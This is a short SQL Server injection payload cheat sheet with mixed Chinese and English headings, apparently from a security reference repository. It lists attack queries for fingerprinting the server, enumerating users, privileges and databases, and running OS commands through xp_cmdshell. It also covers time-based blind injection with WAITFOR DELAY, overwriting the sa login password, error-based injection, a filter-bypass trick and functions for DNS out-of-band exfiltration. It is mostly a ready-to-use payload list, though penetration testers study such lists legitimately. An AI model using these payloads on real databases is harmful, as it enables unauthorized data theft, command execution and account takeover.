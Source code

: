 SQL Server Payload
=====================================

常见Payload
----------------------------------------
- Version
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x01 - 0x20``
- 用户信息
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- 用户权限
    - ``select IS_SRVROLEMEMBER('sysadmin')``
    - ``select IS_SRVROLEMEMBER('db_owner')``
- List User
    - ``SELECT name FROM master..syslogins``
- 数据库信息
    - ``SELECT name FROM master..sysdatabases``
    - ``select concat_ws(table_schema,table_name,column_name) from information_schema.columns``
    - ``select quotename(name) from master..sysdatabases FOR XML PATH('')``
- 执行命令
    - ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
- Trick
    - ``id=1 union:select password from:user``
- 文件读取
    - OpenRowset
- 当前查询语句
    - ``select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle)``
- hostname
    - 用于判断是否站库分离
    - ``select host_name()``

报错注入
----------------------------------------
- ``1=convert(int,(db_name()))``

常用函数
----------------------------------------
- SUSER_NAME()
- USER_NAME()
- PERMISSIONS()
- DB_NAME()
- FILE_NAME()
- TYPE_NAME()
- COL_NAME()

DNS OOB
----------------------------------------
- fn_xe_file_target_read_file
- fn_get_audit_file
- fn_trace_gettable
